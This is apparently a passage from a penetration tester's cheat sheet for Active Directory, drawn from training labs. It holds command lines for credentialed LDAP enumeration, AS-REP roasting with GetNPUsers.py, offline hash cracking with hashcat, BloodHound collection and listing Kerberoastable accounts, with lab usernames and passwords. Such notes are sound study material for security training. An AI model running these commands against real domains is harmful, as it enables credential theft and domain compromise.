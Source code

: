```
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```
#### Privileged Users
```
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```
## ASREPRoasting
### Linux
```
root@kali:~# GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile users.txt -dc-ip 10.10.10.175
```
We could get a list of the users from the website or from enum4linux
#### Cracking the Hash Offline with Hashcat
```
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt
```
you can add -format hashcat to the above command
## ldapsearch
If you have valid credentials you can use ldapdomaindump to get the info 
```
oxdf@hacky$ ldapdomaindump -u management.htb\\operator -p 'operator' 10.10.11.236 -o ldap/
```
The user and password is operator in the above example
## You can run bloodhound-python if nothing works 
```
bloodhound-python -u support -p '#00^BlackKnight' -ns 10.10.10.192 -d blackfield.local -c all
```
# Credentialed Enumeration - from Windows
## Get-Module
```
Import-Module ActiveDirectory
```
## ActiveDirectory PowerShell module
### Get Domain Info
This will print out helpful information like the domain SID, domain functional level, any child domains
```
PS C:\htb> Get-ADDomain
```
### get a listing of accounts that may be susceptible to a Kerberoasting attack
```
Get-ADUser
```
filtering for accounts with the ServicePrincipalName
```
PS C:\htb> Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
### Checking For Trust Relationships
```
PS C:\htb> Get-ADTrust -Filter *
```
### Group Enumeration
```
PS C:\htb> Get-ADGroup -Filter * | select name
```